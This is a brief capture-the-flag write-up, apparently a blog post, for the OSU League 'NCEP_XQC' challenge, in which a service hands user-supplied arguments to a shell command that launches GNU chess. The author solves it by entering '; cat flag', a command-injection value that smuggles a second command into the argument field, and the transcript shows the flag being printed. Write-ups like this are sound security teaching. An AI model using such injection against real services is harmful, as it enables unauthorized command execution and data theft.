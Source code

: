 ```yaml
---
title: "OSU League 2020/2021 - NCEP_XQC Writeup"
date: 2021-04-10
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a simple program that just runs GNU chess.
Right away we can see that it lets us input command line arguments! Maybe we can just do a simple commandline injection to cat the flag:

```
$ nc ctf.ropcity.com 31314
WELCOME TO THE NORWEGIAN COLLEGE OF ELITE PWN
Please enter your custom command line arguments, or just hit enter to begin your training: ; cat flag
executing command: /usr/games/gnuchess -g -m ; cat flag

GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : quit
osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}

finished executing command /usr/games/gnuchess -g -m ; cat flag
```

And we get the flag!  
`osu{WeLc0m3_T0_tH3_c0LLe6e_0f_pWN}`

Welp... Looks like that was it. A good beginner challenge!